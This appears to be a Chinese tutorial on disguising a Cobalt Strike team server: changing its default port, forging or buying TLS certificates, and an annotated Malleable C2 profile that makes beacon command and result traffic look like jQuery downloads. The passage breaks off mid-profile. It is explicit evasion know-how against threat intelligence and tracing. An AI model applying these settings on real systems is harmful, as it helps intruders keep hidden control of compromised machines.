# 1.什么是特征

特征 : 人或事物可供识别的特殊的象征或标志。
cobalt strike也有属于自己的特征 , 比如默认开放的端口号是50050 , 自带证书里面有cobalt strike字符
等

# 2.为什么要修改特征

因为cs服务器如果默认特征不进行修改的话 , 很容易被搜索引擎或者威胁情报标记成木马远控服务器 , 以及进行一些特征的修改就算ip地址暴露了 , 也不能直接肯定这个ip是木马远控ip , 提高自身的隐藏性。

# 3.如何修改特征

修改特征是针对**cs服务端**进行特征的修改 , **客户端不需要修改**
***牢记 : cs服务器需要的时候再开启 , 平常不需要的时候就关闭***

## 3.1修改默认端口

进入cs的安装目录

```
vim teamserver
```

只需要修改最后一行的-Dcobaltstrike.server_port ,可以是 80，443，3389，8080，8443等常见端口，前提是该端口没有被占用。

```
# start the team server.
java -XX:ParallelGCThreads=4 -Dcobaltstrike.server_port=8080 -
Djavax.net.ssl.keyStore=./cobaltstrike.store -Djavax.net.ssl.keyStorePassword=Microsoft -
server -XX:+AggressiveHeap -XX:+UseParallelGC -classpath ./cobaltstrike.jar 
server.TeamServer $*
```

## 3.2修改默认证书

> 推荐付费ssl证书
1.购买域名,申请免费的ssl证书
2.修改teamserver证书密码

查看默认证书

```
keytool -list -v -keystore cobaltstrike.store
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
输入密钥库口令: 
# 默认口令是 Microsoft ,我这里设置的是123456
```



生成伪造证书

```sh
mv cobaltstrike.store cobaltstrike.store.bak 
keytool -keystore cobaltstrike_new.store -storepass 1qazwsx -keypass 1qazwsx -genkey -
keyalg RSA -alias qq.com -dname "CN=US, OU=qq.com, O=Software, L=Somewhere, 
ST=Cyberspace, C=CN"
mv cobaltstrike_new.store cobaltstrike.store
```



然后在teamserver中设置即可

```
-Djavax.net.ssl.keyStore=./cobaltstrike.store # 注意密码
```

虽然伪装的证书可以欺骗fofa这类搜索引擎 , 但是毕竟是伪造的 , 使用ssl证书查询工具是查询不到颁发机构的 , 因为是我们自己生成的 , 真正的证书是证书签发机构颁布的 , 腾讯云购买域名就可以免费申请ssl证书 , 不过要实名备案 , 推荐Cloudflare , letsencrypt或各国外云服务提供商不需要实名备案.

使用颁发的ssl证书 , 推荐** jks格式** 的证书 , 直接修改文件名 , 然后在teamserver中配置就可以了

```
mv server.jks cobaltstrike.store
# 在teamserver中配置
-Djavax.net.ssl.keyStore=./cobaltstrike.store
```

**pem格式**

```
openssl pkcs12 -export -in /api.xxx.com/sss.pem -inkey /api.xxx.com/ssk.pem -out
api.xxx.com.p12 -name api.xxx.com -passout pass:123456 keytool -importkeystore -
deststorepass 123456 -destkeypass 123456 -destkeystore api.xxx.com -src
```

pem-->p12-->store文件 , 然后在teamserver中配置

**crt格式**

```
keytool -import -trustcacerts -alias mykey -file domain.crt -keystore domain.store
```

然后在teamserver中配置,推荐使用付费购买的ssl证书 , 腾讯云是购买域名然后可以免费申请ssl证书,比如我的证书



默认腾讯云的ssl证书下载jks的就可以了 , 证书的别名就是你的域名 , 当然你也可以使用命令查看

```
keytool -list -v -keystore file.jks -storepass password 其中file.jks是证书名字，password要用密钥来代替
```

然后搜索  Alias name 就可以看到证书别名了.

> 在网络安全和加密领域，store、pem 和 crt 格式文件都是用于存储和管理证书及密钥的文件格式。它们在使用场景和存储内容上有所不同。
> 
> store格式：用于存储一组证书和密钥的二进制文件，如 JKS 或 PKCS#12。
> 
> PEM格式：一种文本格式，可以存储证书、私钥或证书链。常见的扩展名包括 .pem, .crt, .cer, .key。
> 
> CRT格式：通常存储单个证书，通常是PEM编码。

## 3.3配置profile文件

cs中默认是没有 profile文件 的 , 需要自己配置 , 而且官网称profile文件为Malleablec2,**整个profile文件的配置就是进行流量上的伪装, 防溯源, 把命令的下发和结果的回传进行包装 , 让他从流量上看起来更像是在访问网页.**

### 基本语法

```
# this is a comment     # 是注释
# 设置全局变量，和其他无关是cs自身的一些机制
set global_option "value"  
#协议的配置，如：http-get , https-post等

protocol-transaction {
  set local_option "value";
  client{
    # customize client indicators
  }
  server{
    # customize server indicators
  }
}
```

实际上就是很简单 , 就是set 和 一些协议上的配置
下面会以 jquery-c2.4.5-jx.profile 文件为例来解释其中的各个配置项的作用

### 全局变量

```
# Malleable C2 Profile
# Version: CobaltStrike 4.5 
# File: jquery-c2.4.5.profile
# Description: 
#   c2 profile attempting to mimic a jquery.js request #   uses signed certificates
#   or self-signed certificates
# Authors: @joevest, @andrewchiles, @001SPARTaN ### Global Option Block

# 设置全局变量sample_name , 值是当前文件名
set sample_name "jQuery CS 4.5 Profile";
# 设置心跳包的时间 , 单位毫秒
set sleeptime "1000";    # 45 Seconds
# set sleeptime "<60000>"; # 1  Minute , 默认的
# 设置心跳包时间的波动范围 45 +- 45*37% 
set jitter "50";   # % jitter

# 意味着每次HTTP服务器响应时，都会附加一个长度在0到100个字符之间的随机字符串。这样做的目的是为了增加服务器响应的大小的不可预测性，使得Cobalt Strike的通信模式更难以通过网络监控工具被识别和分析。
set data_jitter "100"; 

# 设置全局的UA头
set useragent "Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko";
```

### https-certificate ssl证书配置

```
https-certificate {
    set C   "US";    #国家
    set CN  "jquery.com";
    set O   "jQuery";
    set OU  "Certificate Authority";
    set validity "365";
    
    set keystore "cobaltstrike.store"; # 证书文件
    set password "1qazwsx";  # 证书密码
}
```



证书密码指的是上面的密钥库口令。

### SMB和TCP , smb会在横向渗透使用到

```
### TCP Beacon 监听端口
set tcp_port "42585";
set tcp_frame_header "\x80";

### SMB Beacon 
set pipename         "mojo.5688.8052.183894939787088877##"; # Common Chrome named pipe  smb管道的名字
set pipename_stager  "mojo.5688.8052.35780273329370473##"; # Common Chrome named pipe   smb stager管道的名字
set smb_frame_header "\x80";

```

### DNS beacon , 不经常使用 , 但是对于只有DNS协议出网的设备可以使用

```
dns-beacon {
    set dns_idle           "74.125.196.113"; #google.com (change this to match your campaign)第一次dns查询的地址
    set dns_max_txt        "252";  最大查询次数 , 255以下 , 能被4整除
    set dns_sleep          "0"; #    Force a sleep prior to each individual DNS request. (in milliseconds)  sleep时间
    set dns_ttl            "5"; # ttl值
    set maxdns             "255";  # 最大dns服务转接数量
    set dns_stager_prepend ".resources.123456.";  #  # 使用dns协议的马,pe头追加的内容
    set dns_stager_subhost ".feeds.123456.";  #  # 子域名的查询配置
    # DNS subhosts override options, added in version 4.3
    set beacon           "a.bc.";
    set get_A            "b.1a.";
    set get_AAAA         "c.4a.";
    set get_TXT          "d.tx.";
    set put_metadata     "e.md.";
    set put_output       "f.po.";
    set ns_response      "zero";
}
```

### SSH beacons: 配置用于横向移动的SSH伪Beacon。

```
set ssh_banner        "OpenSSH_7.4 Debian (protocol 2.0)";  # SSH连接的banner信息
set ssh_pipename      "wkssvc##"; # 定义了用于SSH伪Beacon通信的命名管道的名称前缀,##是一个占位符
```

http-stager 块是用来自定义HTTP阶段化（staging）过程的配置。阶段化是Cobalt Strike中的一个重要概念，它指的是将第二阶段的有效载荷（即用于后渗透测试的代码）传输到已经受到攻击者控制的主机上的过程。

```
# 用于指定是否启用通过HTTP、HTTPS或DNS进行阶段化(第二阶段)的有效载荷（payload）托管。
set host_stage "true"; # Host payload for staging over HTTP, HTTPS, or DNS. Required by stagers.set
http-stager {  
    set uri_x86 "/jquery-3.3.1.slim.min.js";
    set uri_x64 "/jquery-3.3.2.slim.min.js";
    server {
        header "Server" "NetDNA-cache/2.2";
        header "Cache-Control" "max-age=0, no-cache";
        header "Pragma" "no-cache";
        header "Connection" "keep-alive";
        header "Content-Type" "application/javascript; charset=utf-8";
        output {
            ## The javascript was changed.  Double quotes and backslashes were escaped to properly render (Refer to Tips for Profile Parameter Values)
            # 2nd Line            
            prepend "!function(e,t){\"use strict\";\"object\"==typeof module&&\"object\"==typeof module.exports?module.exports=e.document?t(e,!0):function(e){if(!e.document)throw new Error(\"jQuery requires a window with a document\");return t(e)}:t(e)}(\"undefined\"!=typeof window?window:this,function(e,t){\"use strict\";var n=[],r=e.document,i=Object.getPrototypeOf,o=n.slice,a=n.concat,s=n.push,u=n.indexOf,l={},c=l.toString,f=l.hasOwnProperty,p=f.toString,d=p.call(Object),h={},g=function e(t){return\"function\"==typeof t&&\"number\"!=typeof t.nodeType},y=function e(t){return null!=t&&t===t.window},v={type:!0,src:!0,noModule:!0};function m(e,t,n){var i,o=(t=t||r).createElement(\"script\");if(o.text=e,n)for(i in v)n[i]&&(o[i]=n[i]);t.head.appendChild(o).parentNode.removeChild(o)}function x(e){return null==e?e+\"\":\"object\"==typeof e||\"function\"==typeof e?l[c.call(e)]||\"object\":typeof e}var b=\"3.3.1\",w=function(e,t){return new w.fn.init(e,t)},T=/^[\\s\\uFEFF\\xA0]+|[\\s\\uFEFF\\xA0]+$/g;w.fn=w.prototype={jquery:\"3.3.1\",constructor:w,length:0,toArray:function(){return o.call(this)},get:function(e){return null==e?o.call(this):e<0?this[e+this.length]:this[e]},pushStack:function(e){var t=w.merge(this.constructor(),e);return t.prevObject=this,t},each:function(e){return w.each(this,e)},map:function(e){return this.pushStack(w.map(this,function(t,n){return e.call(t,n,t)}))},slice:function(){return this.pushStack(o.apply(this,arguments))},first:function(){return this.eq(0)},last:function(){return this.eq(-1)},eq:function(e){var t=this.length,n=+e+(e<0?t:0);return this.pushStack(n>=0&&n<t?[this[n]]:[])},end:function(){return this.prevObject||this.constructor()},push:s,sort:n.sort,splice:n.splice},w.extend=w.fn.extend=function(){var e,t,n,r,i,o,a=arguments[0]||{},s=1,u=arguments.length,l=!1;for(\"boolean\"==typeof a&&(l=a,a=arguments[s]||{},s++),\"object\"==typeof a||g(a)||(a={}),s===u&&(a=this,s--);s<u;s++)if(null!=(e=arguments[s]))for(t in e)n=a[t],a!==(r=e[t])&&(l&&r&&(w.isPlainObject(r)||(i=Array.isArray(r)))?(i?(i=!1,o=n&&Array.isArray(n)?n:[]):o=n&&w.isPlainObject(n)?n:{},a[t]=w.extend(l,o,r)):void 0!==r&&(a[t]=r));return a},w.extend({expando:\"jQuery\"+(\"3.3.1\"+Math.random()).replace(/\\D/g,\"\"),isReady:!0,error:function(e){throw new Error(e)},noop:function(){},isPlainObject:function(e){var t,n;return!(!e||\"[object Object]\"!==c.call(e))&&(!(t=i(e))||\"function\"==typeof(n=f.call(t,\"constructor\")&&t.constructor)&&p.call(n)===d)},isEmptyObject:function(e){var t;for(t in e)return!1;return!0},globalEval:function(e){m(e)},each:function(e,t){var n,r=0;if(C(e)){for(n=e.length;r<n;r++)if(!1===t.call(e[r],r,e[r]))break}else for(r in e)if(!1===t.call(e[r],r,e[r]))break;return e},trim:function(e){return null==e?\"\":(e+\"\").replace(T,\"\")},makeArray:function(e,t){var n=t||[];return null!=e&&(C(Object(e))?w.merge(n,\"string\"==typeof e?[e]:e):s.call(n,e)),n},inArray:function(e,t,n){return null==t?-1:u.call(t,e,n)},merge:function(e,t){for(var n=+t.length,r=0,i=e.length;r<n;r++)e[i++]=t[r];return e.length=i,e},grep:function(e,t,n){for(var r,i=[],o=0,a=e.length,s=!n;o<a;o++)(r=!t(e[o],o))!==s&&i.push(e[o]);return i},map:function(e,t,n){var r,i,o=0,s=[];if(C(e))for(r=e.length;o<r;o++)null!=(i=t(e[o],o,n))&&s.push(i);else for(o in e)null!=(i=t(e[o],o,n))&&s.push(i);return a.apply([],s)},guid:1,support:h}),\"function\"==typeof Symbol&&(w.fn[Symbol.iterator]=n[Symbol.iterator]),w.each(\"Boolean Number String Function Array Date RegExp Object Error Symbol\".split(\" \"),function(e,t){l[\"[object \"+t+\"]\"]=t.toLowerCase()});function C(e){var t=!!e&&\"length\"in e&&e.length,n=x(e);return!g(e)&&!y(e)&&(\"array\"===n||0===t||\"number\"==typeof t&&t>0&&t-1 in e)}var E=function(e){var t,n,r,i,o,a,s,u,l,c,f,p,d,h,g,y,v,m,x,b=\"sizzle\"+1*new Date,w=e.document,T=0,C=0,E=ae(),k=ae(),S=ae(),D=function(e,t){return e===t&&(f=!0),0},N={}.hasOwnProperty,A=[],j=A.pop,q=A.push,L=A.push,H=A.slice,O=function(e,t){for(var n=0,r=e.length;n<r;n++)if(e[n]===t)return n;return-1},P=\"\r";
            # 1st Line
            prepend "/*! jQuery v3.3.1 | (c) JS Foundation and other contributors | jquery.org/license */";
            append "\".(o=t.documentElement,Math.max(t.body[\"scroll\"+e],o[\"scroll\"+e],t.body[\"offset\"+e],o[\"offset\"+e],o[\"client\"+e])):void 0===i?w.css(t,n,s):w.style(t,n,i,s)},t,a?i:void 0,a)}})}),w.each(\"blur focus focusin focusout resize scroll click dblclick mousedown mouseup mousemove mouseover mouseout mouseenter mouseleave change select submit keydown keypress keyup contextmenu\".split(\" \"),function(e,t){w.fn[t]=function(e,n){return arguments.length>0?this.on(t,null,e,n):this.trigger(t)}}),w.fn.extend({hover:function(e,t){return this.mouseenter(e).mouseleave(t||e)}}),w.fn.extend({bind:function(e,t,n){return this.on(e,null,t,n)},unbind:function(e,t){return this.off(e,null,t)},delegate:function(e,t,n,r){return this.on(t,e,n,r)},undelegate:function(e,t,n){return 1===arguments.length?this.off(e,\"**\"):this.off(t,e||\"**\",n)}}),w.proxy=function(e,t){var n,r,i;if(\"string\"==typeof t&&(n=e[t],t=e,e=n),g(e))return r=o.call(arguments,2),i=function(){return e.apply(t||this,r.concat(o.call(arguments)))},i.guid=e.guid=e.guid||w.guid++,i},w.holdReady=function(e){e?w.readyWait++:w.ready(!0)},w.isArray=Array.isArray,w.parseJSON=JSON.parse,w.nodeName=N,w.isFunction=g,w.isWindow=y,w.camelCase=G,w.type=x,w.now=Date.now,w.isNumeric=function(e){var t=w.type(e);return(\"number\"===t||\"string\"===t)&&!isNaN(e-parseFloat(e))},\"function\"==typeof define&&define.amd&&define(\"jquery\",[],function(){return w});var Jt=e.jQuery,Kt=e.$;return w.noConflict=function(t){return e.$===w&&(e.$=Kt),t&&e.jQuery===w&&(e.jQuery=Jt),w},t||(e.jQuery=e.$=w),w});";
            print;
        }
    }
    client {
        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
        header "Accept-Language" "en-US,en;q=0.5";
        #header "Host" "code.jquery.com";
        header "Referer" "http://code.jquery.com/";
        header "Accept-Encoding" "gzip, deflate";
    }
}

```

### http-config , 不单单是http实际上也是https的全局响应头配置

```
http-config {
    set headers "Date, Server, Content-Length, Keep-Alive, Connection, Content-Type";
    header "Server" "Apache";
    header "Keep-Alive" "timeout=10, max=100";
    header "Connection" "Keep-Alive";
    set trust_x_forwarded_for "true";
    set block_useragents "curl*,lynx*,wget*";
}
```

### http-get (无缩进要求) , 命令的下发相当于是teamserver(cs服务端)向受害者发送一个get请求 

```
http-get {
# 下发命令访问的uri
    set uri "/jquery-3.3.1.min.js";
    # 请求方法
    set verb "GET";
    # 客户端配置
    client {
    # 请求头配置
        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
        #header "Host" "code.jquery.com";
        header "Referer" "http://code.jquery.com/";
        header "Accept-Encoding" "gzip, deflate";
        # 元数据配置
        metadata {
            base64url;
            prepend "__cfduid=";
            header "Cookie";
        }
    }
    # 服务端配置
    server {
    # 响应头设置
        header "Server" "NetDNA-cache/2.2";
        header "Cache-Control" "max-age=0, no-cache";
        header "Pragma" "no-cache";
        header "Connection" "keep-alive";
        header "Content-Type" "application/javascript; charset=utf-8";
        # # 输出信息
        output {   
            mask;
            base64url;
            ## The javascript was changed.  Double quotes and backslashes were escaped to properly render (Refer to Tips for Profile Parameter Values)
            # 2nd Line    
            # 响应中html页面头部信息
            prepend "!function(e,t){\"use strict\";\"object\"==typeof module&&\"object\"==typeof module.exports?module.exports=e.document?t(e,!0):function(e){if(!e.document)throw new Error(\"jQuery requires a window with a document\");return t(e)}:t(e)}(\"undefined\"!=typeof window?window:this,function(e,t){\"use strict\";var n=[],r=e.document,i=Object.getPrototypeOf,o=n.slice,a=n.concat,s=n.push,u=n.indexOf,l={},c=l.toString,f=l.hasOwnProperty,p=f.toString,d=p.call(Object),h={},g=function e(t){return\"function\"==typeof t&&\"number\"!=typeof t.nodeType},y=function e(t){return null!=t&&t===t.window},v={type:!0,src:!0,noModule:!0};function m(e,t,n){var i,o=(t=t||r).createElement(\"script\");if(o.text=e,n)for(i in v)n[i]&&(o[i]=n[i]);t.head.appendChild(o).parentNode.removeChild(o)}function x(e){return null==e?e+\"\":\"object\"==typeof e||\"function\"==typeof e?l[c.call(e)]||\"object\":typeof e}var b=\"3.3.1\",w=function(e,t){return new w.fn.init(e,t)},T=/^[\\s\\uFEFF\\xA0]+|[\\s\\uFEFF\\xA0]+$/g;w.fn=w.prototype={jquery:\"3.3.1\",constructor:w,length:0,toArray:function(){return o.call(this)},get:function(e){return null==e?o.call(this):e<0?this[e+this.length]:this[e]},pushStack:function(e){var t=w.merge(this.constructor(),e);return t.prevObject=this,t},each:function(e){return w.each(this,e)},map:function(e){return this.pushStack(w.map(this,function(t,n){return e.call(t,n,t)}))},slice:function(){return this.pushStack(o.apply(this,arguments))},first:function(){return this.eq(0)},last:function(){return this.eq(-1)},eq:function(e){var t=this.length,n=+e+(e<0?t:0);return this.pushStack(n>=0&&n<t?[this[n]]:[])},end:function(){return this.prevObject||this.constructor()},push:s,sort:n.sort,splice:n.splice},w.extend=w.fn.extend=function(){var e,t,n,r,i,o,a=arguments[0]||{},s=1,u=arguments.length,l=!1;for(\"boolean\"==typeof a&&(l=a,a=arguments[s]||{},s++),\"object\"==typeof a||g(a)||(a={}),s===u&&(a=this,s--);s<u;s++)if(null!=(e=arguments[s]))for(t in e)n=a[t],a!==(r=e[t])&&(l&&r&&(w.isPlainObject(r)||(i=Array.isArray(r)))?(i?(i=!1,o=n&&Array.isArray(n)?n:[]):o=n&&w.isPlainObject(n)?n:{},a[t]=w.extend(l,o,r)):void 0!==r&&(a[t]=r));return a},w.extend({expando:\"jQuery\"+(\"3.3.1\"+Math.random()).replace(/\\D/g,\"\"),isReady:!0,error:function(e){throw new Error(e)},noop:function(){},isPlainObject:function(e){var t,n;return!(!e||\"[object Object]\"!==c.call(e))&&(!(t=i(e))||\"function\"==typeof(n=f.call(t,\"constructor\")&&t.constructor)&&p.call(n)===d)},isEmptyObject:function(e){var t;for(t in e)return!1;return!0},globalEval:function(e){m(e)},each:function(e,t){var n,r=0;if(C(e)){for(n=e.length;r<n;r++)if(!1===t.call(e[r],r,e[r]))break}else for(r in e)if(!1===t.call(e[r],r,e[r]))break;return e},trim:function(e){return null==e?\"\":(e+\"\").replace(T,\"\")},makeArray:function(e,t){var n=t||[];return null!=e&&(C(Object(e))?w.merge(n,\"string\"==typeof e?[e]:e):s.call(n,e)),n},inArray:function(e,t,n){return null==t?-1:u.call(t,e,n)},merge:function(e,t){for(var n=+t.length,r=0,i=e.length;r<n;r++)e[i++]=t[r];return e.length=i,e},grep:function(e,t,n){for(var r,i=[],o=0,a=e.length,s=!n;o<a;o++)(r=!t(e[o],o))!==s&&i.push(e[o]);return i},map:function(e,t,n){var r,i,o=0,s=[];if(C(e))for(r=e.length;o<r;o++)null!=(i=t(e[o],o,n))&&s.push(i);else for(o in e)null!=(i=t(e[o],o,n))&&s.push(i);return a.apply([],s)},guid:1,support:h}),\"function\"==typeof Symbol&&(w.fn[Symbol.iterator]=n[Symbol.iterator]),w.each(\"Boolean Number String Function Array Date RegExp Object Error Symbol\".split(\" \"),function(e,t){l[\"[object \"+t+\"]\"]=t.toLowerCase()});function C(e){var t=!!e&&\"length\"in e&&e.length,n=x(e);return!g(e)&&!y(e)&&(\"array\"===n||0===t||\"number\"==typeof t&&t>0&&t-1 in e)}var E=function(e){var t,n,r,i,o,a,s,u,l,c,f,p,d,h,g,y,v,m,x,b=\"sizzle\"+1*new Date,w=e.document,T=0,C=0,E=ae(),k=ae(),S=ae(),D=function(e,t){return e===t&&(f=!0),0},N={}.hasOwnProperty,A=[],j=A.pop,q=A.push,L=A.push,H=A.slice,O=function(e,t){for(var n=0,r=e.length;n<r;n++)if(e[n]===t)return n;return-1},P=\"\r";
            # 1st Line
            prepend "/*! jQuery v3.3.1 | (c) JS Foundation and other contributors | jquery.org/license */";
            # 响应中html页面尾部信息
            append "\".(o=t.documentElement,Math.max(t.body[\"scroll\"+e],o[\"scroll\"+e],t.body[\"offset\"+e],o[\"offset\"+e],o[\"client\"+e])):void 0===i?w.css(t,n,s):w.style(t,n,i,s)},t,a?i:void 0,a)}})}),w.each(\"blur focus focusin focusout resize scroll click dblclick mousedown mouseup mousemove mouseover mouseout mouseenter mouseleave change select submit keydown keypress keyup contextmenu\".split(\" \"),function(e,t){w.fn[t]=function(e,n){return arguments.length>0?this.on(t,null,e,n):this.trigger(t)}}),w.fn.extend({hover:function(e,t){return this.mouseenter(e).mouseleave(t||e)}}),w.fn.extend({bind:function(e,t,n){return this.on(e,null,t,n)},unbind:function(e,t){return this.off(e,null,t)},delegate:function(e,t,n,r){return this.on(t,e,n,r)},undelegate:function(e,t,n){return 1===arguments.length?this.off(e,\"**\"):this.off(t,e||\"**\",n)}}),w.proxy=function(e,t){var n,r,i;if(\"string\"==typeof t&&(n=e[t],t=e,e=n),g(e))return r=o.call(arguments,2),i=function(){return e.apply(t||this,r.concat(o.call(arguments)))},i.guid=e.guid=e.guid||w.guid++,i},w.holdReady=function(e){e?w.readyWait++:w.ready(!0)},w.isArray=Array.isArray,w.parseJSON=JSON.parse,w.nodeName=N,w.isFunction=g,w.isWindow=y,w.camelCase=G,w.type=x,w.now=Date.now,w.isNumeric=function(e){var t=w.type(e);return(\"number\"===t||\"string\"===t)&&!isNaN(e-parseFloat(e))},\"function\"==typeof define&&define.amd&&define(\"jquery\",[],function(){return w});var Jt=e.jQuery,Kt=e.$;return w.noConflict=function(t){return e.$===w&&(e.$=Kt),t&&e.jQuery===w&&(e.jQuery=Jt),w},t||(e.jQuery=e.$=w),w});";
            print;
        }
    }
}

```

### http-post 结果的回传相当于受害者向teamserver发送一个post请求

```
http-post {
# 请求的地址
    set uri "/jquery-3.3.2.min.js";
    # 请求的方法
    set verb "POST";
    # 客户端配置
    client {
    # 请求头
        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
        #header "Host" "code.jquery.com";
        header "Referer" "http://code.jquery.com/";
        header "Accept-Encoding" "gzip, deflate";
       # 参数
        id {
            mask;       
            base64url;
            parameter "__cfduid";            
        }
              
        # 输出信息      
        output {
            mask;
            base64url;
            print;
        }
    }
    server {
        header "Server" "NetDNA-cache/2.2";
        header "Cache-Control" "max-age=0, no-cache";
        header "Pragma" "no-cache";
        header "Connection" "keep-alive";
        header "Content-Type" "application/javascript; charset=utf-8";
        output {
            mask;
            base64url;
            ## The javascript was changed.  Double quotes and backslashes were escaped to properly render (Refer to Tips for Profile Parameter Values)
            # 2nd Line            
            prepend "!function(e,t){\"use strict\";\"object\"==typeof module&&\"object\"==typeof module.exports?module.exports=e.document?t(e,!0):function(e){if(!e.document)throw new Error(\"jQuery requires a window with a document\");return t(e)}:t(e)}(\"undefined\"!=typeof window?window:this,function(e,t){\"use strict\";var n=[],r=e.document,i=Object.getPrototypeOf,o=n.slice,a=n.concat,s=n.push,u=n.indexOf,l={},c=l.toString,f=l.hasOwnProperty,p=f.toString,d=p.call(Object),h={},g=function e(t){return\"function\"==typeof t&&\"number\"!=typeof t.nodeType},y=function e(t){return null!=t&&t===t.window},v={type:!0,src:!0,noModule:!0};function m(e,t,n){var i,o=(t=t||r).createElement(\"script\");if(o.text=e,n)for(i in v)n[i]&&(o[i]=n[i]);t.head.appendChild(o).parentNode.removeChild(o)}function x(e){return null==e?e+\"\":\"object\"==typeof e||\"function\"==typeof e?l[c.call(e)]||\"object\":typeof e}var b=\"3.3.1\",w=function(e,t){return new w.fn.init(e,t)},T=/^[\\s\\uFEFF\\xA0]+|[\\s\\uFEFF\\xA0]+$/g;w.fn=w.prototype={jquery:\"3.3.1\",constructor:w,length:0,toArray:function(){return o.call(this)},get:function(e){return null==e?o.call(this):e<0?this[e+this.length]:this[e]},pushStack:function(e){var t=w.merge(this.constructor(),e);return t.prevObject=this,t},each:function(e){return w.each(this,e)},map:function(e){return this.pushStack(w.map(this,function(t,n){return e.call(t,n,t)}))},slice:function(){return this.pushStack(o.apply(this,arguments))},first:function(){return this.eq(0)},last:function(){return this.eq(-1)},eq:function(e){var t=this.length,n=+e+(e<0?t:0);return this.pushStack(n>=0&&n<t?[this[n]]:[])},end:function(){return this.prevObject||this.constructor()},push:s,sort:n.sort,splice:n.splice},w.extend=w.fn.extend=function(){var e,t,n,r,i,o,a=arguments[0]||{},s=1,u=arguments.length,l=!1;for(\"boolean\"==typeof a&&(l=a,a=arguments[s]||{},s++),\"object\"==typeof a||g(a)||(a={}),s===u&&(a=this,s--);s<u;s++)if(null!=(e=arguments[s]))for(t in e)n=a[t],a!==(r=e[t])&&(l&&r&&(w.isPlainObject(r)||(i=Array.isArray(r)))?(i?(i=!1,o=n&&Array.isArray(n)?n:[]):o=n&&w.isPlainObject(n)?n:{},a[t]=w.extend(l,o,r)):void 0!==r&&(a[t]=r));return a},w.extend({expando:\"jQuery\"+(\"3.3.1\"+Math.random()).replace(/\\D/g,\"\"),isReady:!0,error:function(e){throw new Error(e)},noop:function(){},isPlainObject:function(e){var t,n;return!(!e||\"[object Object]\"!==c.call(e))&&(!(t=i(e))||\"function\"==typeof(n=f.call(t,\"constructor\")&&t.constructor)&&p.call(n)===d)},isEmptyObject:function(e){var t;for(t in e)return!1;return!0},globalEval:function(e){m(e)},each:function(e,t){var n,r=0;if(C(e)){for(n=e.length;r<n;r++)if(!1===t.call(e[r],r,e[r]))break}else for(r in e)if(!1===t.call(e[r],r,e[r]))break;return e},trim:function(e){return null==e?\"\":(e+\"\").replace(T,\"\")},makeArray:function(e,t){var n=t||[];return null!=e&&(C(Object(e))?w.merge(n,\"string\"==typeof e?[e]:e):s.call(n,e)),n},inArray:function(e,t,n){return null==t?-1:u.call(t,e,n)},merge:function(e,t){for(var n=+t.length,r=0,i=e.length;r<n;r++)e[i++]=t[r];return e.length=i,e},grep:function(e,t,n){for(var r,i=[],o=0,a=e.length,s=!n;o<a;o++)(r=!t(e[o],o))!==s&&i.push(e[o]);return i},map:function(e,t,n){var r,i,o=0,s=[];if(C(e))for(r=e.length;o<r;o++)null!=(i=t(e[o],o,n))&&s.push(i);else for(o in e)null!=(i=t(e[o],o,n))&&s.push(i);return a.apply([],s)},guid:1,support:h}),\"function\"==typeof Symbol&&(w.fn[Symbol.iterator]=n[Symbol.iterator]),w.each(\"Boolean Number String Function Array Date RegExp Object Error Symbol\".split(\" \"),function(e,t){l[\"[object \"+t+\"]\"]=t.toLowerCase()});function C(e){var t=!!e&&\"length\"in e&&e.length,n=x(e);return!g(e)&&!y(e)&&(\"array\"===n||0===t||\"number\"==typeof t&&t>0&&t-1 in e)}var E=function(e){var t,n,r,i,o,a,s,u,l,c,f,p,d,h,g,y,v,m,x,b=\"sizzle\"+1*new Date,w=e.document,T=0,C=0,E=ae(),k=ae(),S=ae(),D=function(e,t){return e===t&&(f=!0),0},N={}.hasOwnProperty,A=[],j=A.pop,q=A.push,L=A.push,H=A.slice,O=function(e,t){for(var n=0,r=e.length;n<r;n++)if(e[n]===t)return n;return-1},P=\"\r";
            # 1st Line
            prepend "/*! jQuery v3.3.1 | (c) JS Foundation and other contributors | jquery.org/license */";
